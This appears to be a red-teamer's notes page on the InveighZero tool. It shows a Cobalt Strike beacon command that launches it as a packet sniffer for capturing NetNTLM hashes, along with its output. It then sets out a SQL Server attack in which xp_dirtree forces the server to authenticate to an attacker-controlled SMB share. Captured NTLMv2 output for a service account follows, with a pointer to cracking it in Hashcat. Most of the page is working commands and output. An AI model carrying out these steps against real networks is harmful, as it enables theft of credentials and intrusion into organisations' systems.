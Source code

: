 # InveighZero

## [[NTLM Relaying]]
Capture NetNTLM hash
This should be run as a local admin.

ℹ InveighZero will ignore traffic coming from accounts that are generally deemed to be "uncrackable" such as computer accounts.
```beacon
beacon> execute-assembly C:\Tools\InveighZero\Inveigh\bin\Debug\Inveigh.exe -DNS N -LLMNR N -LLMNRv6 N -HTTP N -FileOutput N

[*] Inveigh 0.913 started at 2022-03-10T18:02:36
[+] Elevated Privilege Mode = Enabled
[+] Primary IP Address = 10.10.17.231
[+] Spoofer IP Address = 10.10.17.231
[+] Packet Sniffer = Enabled
[+] DHCPv6 Spoofer = Disabled
[+] DNS Spoofer = Disabled
[+] LLMNR Spoofer = Disabled
[+] LLMNRv6 Spoofer = Disabled
[+] mDNS Spoofer = Disabled
[+] NBNS Spoofer = Disabled
[+] HTTP Capture = Disabled
[+] Proxy Capture = Disabled
[+] WPAD Authentication = NTLM
[+] WPAD NTLM Authentication Ignore List = Firefox
[+] SMB Capture = Enabled
[+] Machine Account Capture = Disabled
[+] File Output = Disabled
[+] Log Output = Enabled
[+] Pcap Output = Disabled
[+] Previous Session Files = Not Found
[*] Press ESC to access console
```

## [[SQL NetNTLM Capture]]
We can use [[InveighZero]] to listen to the incoming requests (this should be run as a local admin).
1. [[InveighZero#Capture NetNTLM hash]]
2. Run `xp_dirtree` to connect the sql server to your machine running [[InveighZero]]
>EXEC xp_dirtree '\\10.10.17.231\pwn', 1, 1
3. Receive hash on the attacking machine
```beacon
[+] [2022-05-14T15:33:49] TCP(445) SYN packet from 10.10.1.20:50323
[+] [2022-05-14T15:33:49] SMB(445) negotiation request detected from 10.10.1.20:50323
[+] [2022-05-14T15:33:49] SMB(445) NTLM challenge 3006547FFC8E90D8 sent to 10.10.1.20:50323
[+] [2022-05-14T15:33:49] SMB(445) NTLMv2 captured for EDU\svc_mssql from 10.10.1.20(SRV1):50323:
svc_mssql::EDU:[...snip...]
```
4. [[Hashcat#Cracking netntlmv2]]


```meta
requirements: 
results: 
oss: #win 
source: https://github.com/Kevin-Robertson/InveighZero
description: Inveigh is a cross-platform .NET IPv4/IPv6 machine-in-the-middle tool.
```